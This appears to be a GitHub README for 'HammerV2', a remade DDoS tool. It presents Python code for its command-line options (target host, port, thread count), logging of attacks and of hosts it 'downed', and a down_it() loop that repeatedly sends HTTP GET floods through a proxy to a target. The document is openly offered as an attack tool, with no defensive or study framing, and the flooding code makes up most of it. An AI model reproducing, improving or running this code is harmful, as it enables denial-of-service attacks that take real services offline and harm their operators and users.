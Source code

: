 # HammerV2
- HammerV2 is some DDoS tool that has been remaked by iFanpS & NumeX

Me & NumeX remake this DDoS tool because the old version has been malfunction or cannot be use.

Me implement some code in here like new argument and on attack line.

# New Argument
- Added logs when the host u attack is down.
```Python
elif requests.head(f"http://{host}").status_code != 200:
                with open("Down.txt","a") as dw:
                    dw.write(f"{host}:{port} has been downed by this tool on Day : {times[0]}, Month : {times[1]}:{times[2]}, Time : {times[3]}, Year : {times[4]}\n")
```
- I am adding new argument (-l | logs) logs method is used for know when are u ddosing.
```Python
def get_parameters():
    global host
    global port
    global thr
    global item
    times = time.ctime(time.time()).split()
    optp = OptionParser(add_help_option=False,epilog="Hammers")
    optp.add_option("-l","--logs",dest="logs",help="save attack logs -l yes")
    optp.add_option("-s","--server", dest="host",help="attack to server ip -s ip")
    optp.add_option("-p","--port",type="int",dest="port",help="-p 80 default 80")
    optp.add_option("-t","--thread",type="int",dest="turbo",help="default 1000 thread")
    optp.add_option("-h","--help",dest="help",action='store_true',help="help you")
    opts, args = optp.parse_args()
    if opts.help:
        usage()
    if opts.host is not None:
        host = opts.host
    else:
        usage()
    if opts.port is None:
        port = 80
    else:
        port = opts.port
    if opts.logs == 'yes':
        with open('logs_hammerv2.txt','a') as lg:
            lg.write(f"{host}:{port} is attacked on Day : {times[0]}, Month : {times[1]}:{times[2]}, Time : {times[3]}, Year : {times[4]}\n")
            lg.close()
    else:
        pass
    if opts.turbo is None:
        thr = 1000
    else:
        thr = opts.turbo
```

# Attack Method
The old hammer attack method u can find on github.

But here i remake the attack method to fast attack.
```Python
def down_it():
    try:
        data = """Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Connection: keep-alive"""
        while True:
            packet = str("GET / HTTP/1.1\nHost: "+host+"\n\n User-Agent: "+random.choice(uagent)+"\n"+data).encode('utf-8')
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((prox[0],int(prox[1])))
            if s.sendto( packet, (host, int(port))):
                s.shutdown(1)
                print ("\033[94m <--packet sent to {0}:{1}! hammering--> \033[0m".format(host, int(port)))
            else:
                s.shutdown(1)
                print("\033[91m shut<->down\033[0m")
            time.sleep(.1)
    except socket.error as e:
        print("\033[91m Socket error, Error {0}\033[0m".format(e))
        time.sleep(2)
    except KeyboardInterrupt:
        exit()
```

# Credit
- NumexX & iFanpS
